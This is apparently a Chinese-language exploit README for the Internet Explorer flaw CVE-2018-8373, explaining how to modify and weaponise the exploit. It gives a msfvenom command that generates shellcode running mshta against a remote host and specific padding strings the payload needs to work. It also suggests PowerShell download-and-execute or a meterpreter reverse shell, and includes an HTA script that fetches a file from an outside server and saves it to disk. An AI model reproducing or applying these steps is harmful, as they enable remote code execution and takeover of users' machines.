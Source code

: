 # CVE-2018-8373 REC


`怎样修改Exploit`
    
    BeforeIE9是可以对IE9之前的版本进行利用，但是在有些X64位机器上不行
    
    BeforeIE11是比较好用的，可以针对IE11之前的版本进行利用
    
    IE11 修改与CVE-2018-8174修改差不多  在165行左右 填充msf生成的payload即可

`怎样使用`
    
    IE9可以直接执行命令 调用Powershell下载执行即可
    
    IE11可以使用msf的powershell meterpreter模块反弹 也可以将下载命令使用msf编码执行

`复现注意事项`
    
    我的知乎专栏 MSF文章
    https://zhuanlan.zhihu.com/p/40091321
    生成 执行命令的payload 这个位置生成的payload是用来填充的
    msfvenom -p windows/exec cmd='mshta http://192.168.0.100:6666/hFmjv' -f js_le exitfunc=thread 
    
    填充payload的时候要注意，与8174有一点不同
    
    就是不是全填充而是在 原来的地方要修改  具体看修改  
    
    要保留如下字符串 然后在这个字符串之前填充  不然是无法复现成功的
   
    %u4100%u0065%u0000%u0000%u0000%u0000%u0000%ucc00%ucccc%ucccc%ucccc%ucccc
    
    我从官网即时下载的IE11也存在问题，所以危害还是很大的。。
    
    `<html>
    <head>
    <script>
    var Object = new ActiveXObject("MSXML2.XMLHTTP");
    Object.open("GET","http://192.168.206.101/demo.php.zip",false);
    Object.send();
    if (Object.Status == 200)
    {
        var Stream = new ActiveXObject("ADODB.Stream");
        Stream.Open();
        Stream.Type = 1;
        Stream.Write(Object.ResponseBody);
        Stream.SaveToFile("C:\\demo.zip", 2);
        Stream.Close();
    }
    window.close();
    </script>
    <HTA:APPLICATION ShowInTaskbar = No>
    WINDOWSTATE = "minimize">
    </head>
    <body>
    </body>
    </html>
    `
    

## 最后感谢看雪大佬提供的EXP。



